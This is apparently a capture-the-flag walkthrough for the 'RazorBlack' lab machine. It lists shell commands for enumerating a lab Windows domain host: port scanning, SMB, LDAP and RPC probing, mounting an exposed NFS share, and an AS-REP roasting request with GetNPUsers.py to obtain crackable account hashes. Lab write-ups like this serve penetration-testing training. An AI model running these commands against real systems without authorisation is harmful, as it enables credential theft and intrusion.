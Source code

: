 # RazorBlack - Medium

```shell
ping -c 3 10.10.81.61
#machine responds to ping

nmap -T4 -p- -A -v 10.10.81.61

sudo vim /etc/hosts
#map ip to raz0rblack.thm

smbclient -L \\\\10.10.81.61
#no shares listed

#enumerating ldap
ldapsearch -H ldap://10.10.81.61 -x

ldapsearch -H ldap://10.10.81.61 -x -s base namingcontexts
#shows namingcontexts

ldapsearch -H ldap://10.10.81.61 -x -b "DC=raz0rblack,DC=thm"
#no output

rpcclient -U "" -N 10.10.81.61
#we can connect
#but any command gives Access Denied

enum4linux 10.10.81.61
#nothing significant

crackmapexec smb 10.10.81.61
#gives host name and domain name

#enumerate port 2049
showmount -e 10.10.81.61
#this shows that we can mount /users

sudo mkdir /mnt/users

sudo mount -t nfs 10.10.81.61:/users /mnt/users

ls -la /mnt/users

sudo cat /mnt/users/sbradley.txt
#Steven flag

echo "sbradley" > usernames.txt
#make note of the usernames enumerated

sudo cp /mnt/users/employee_status.xlsx .
#copies xlsx file to current directory

sudo chmod 777 employee_status.xlsx
#we can now view it
#this can be viewed in Windows or online platforms

vim names.txt
#list names from xlsx file

vim usernames.txt
#change names to usernames using observed pattern

GetNPUsers.py -dc-ip 10.10.81.61 raz0rblack.thm/ -usersfile usernames.txt -request
```